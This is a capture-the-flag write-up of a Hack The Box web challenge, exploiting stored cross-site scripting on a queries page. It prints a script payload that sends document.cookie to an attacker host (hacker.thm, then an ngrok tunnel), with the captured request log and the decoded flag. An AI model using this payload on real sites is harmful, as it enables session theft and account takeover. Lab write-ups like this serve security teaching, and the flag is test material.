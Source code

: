 > "Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim's browser, the attacker can fully compromise their interaction with the application."

Essentially, since the `/queries` page renders the queries we've submitted, we're free to also insert HTML tags like `<h1></h1>`, since the prepared statement likely isn't filtering those characters. The important tag here is `<script></script>`, which will execute whatever javascript we want, which we can use to fetch the cookie. The next question is how we get the cookie using javascript. Luckily, the payload is pretty simple:

```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

This payload will send a request to a website that I control, and stick the cookie (encoded in base64 using the `btoa()` function) in the url. The website doesn't have to have any functionality; as long as I log the request, I'll be able to decode the cookie and get the flag.

### Setup and Attack
Since I'm working out of a VM, I'll use `ngrok` to tunnel traffic to my Kali machine.
```bash
kali@transistor:~/ctf/santa_htb/day1/web_toy_workshop$ /opt/ngrok tcp 80
```

While I could use netcat to catch the request, I like using [this Python script](https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7) to spin up a webserver where I can see the full GET request, headers and all. We also used this in [H@cktivitycon's OPA Secrets](https://an00brektn.github.io/hacktivitycon-opa/) challenge.

On the website, I'll submit the payload from earlier, replacing `hacker.thm` for the `ngrok` instance that I have, and replacing `https` with `http` because setting up `https` is too much work for a CTF.

![asdf](https://an00brektn.github.io/img/htb-cyber-santa/Pasted image 20211206103343.png)

After a few seconds, I get a request on my Python server.

```http
INFO:root:GET request,
Path: /steal?cookie=ZmxhZz1IVEJ7M3YxbF8zbHYzc180cjNfcjFzMW5nX3VwIX0=
Headers:
Host: 0.tcp.ngrok.io:18605
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/93.0.4577.0 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:1337
Referer: http://127.0.0.1:1337/
Accept-Encoding: gzip, deflate



127.0.0.1 - - [06/Dec/2021 11:33:15] "GET /steal?cookie=ZmxhZz1IVEJ7M3YxbF8zbHYzc180cjNfcjFzMW5nX3VwIX0= HTTP/1.1" 200 -
```

Decoding the base64, we get the flag.
```bash
kali@transistor:~/ctf/santa_htb/day1/web_toy_workshop$ echo "ZmxhZz1IVEJ7M3YxbF8zbHYzc180cjNfcjFzMW5nX3VwIX0=" | base64 -d; echo
flag=HTB{3v1l_3lv3s_4r3_r1s1ng_up!}
```